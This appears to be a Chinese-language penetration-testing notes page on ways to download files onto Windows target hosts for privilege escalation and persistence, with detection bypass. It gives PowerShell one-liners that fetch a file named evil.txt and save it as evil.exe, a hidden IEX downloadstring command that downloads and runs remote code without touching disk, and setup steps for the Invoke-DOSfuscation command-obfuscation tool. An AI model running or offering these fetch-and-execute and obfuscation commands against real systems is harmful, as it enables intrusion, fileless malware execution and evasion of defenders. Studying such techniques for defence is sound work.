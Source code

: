 ```yaml
---
title: windows文件下载常用方法
date: 2021-10-09 10:55:16
tags:
---
```


# windows文件下载常用方法



## 概述

在渗透过程中，通常会需要向目标主机传送一些文件，来达到权限提升、权限维持等目的，本篇文章主要介绍一些windows下常用的文件下载方式，以及一些可以bypass的姿势。





## Powershell

PowerShell是一种跨平台的任务自动化和配置管理框架，由命令行管理程序和脚本语言组成，与大多数接受并返回文本的 shell 不同，PowerShell构建在 .NET公共语言运行时 (CLR) 的基础之上，接受并返回.NET对象，这从根本上的改变引入了全新的自动化工具和方法。

远程下载文件到本地：

```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')

// 远程下载文件并执行，无文件落地
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://example.com/evil.txt'))"
```

针对于powershell常规的绕过方式有利用别名或者混淆来进行绕过，这里推荐一个工具Invoke-DOSfuscation。Invoke-DOSfuscation 是一个兼容 PowerShell v2.0+ 的 cmd.exe 命令混淆框架。（white paper：[DOSfuscation: Exploring the Depths of Cmd.exe Obfuscation and Detection Techniques | FireEye Inc](https://www.fireeye.com/blog/threat-research/2018/03/dosfuscation-exploring-obfuscation-and-detection-techniques.html)）

使用方法：

```
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git

cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```


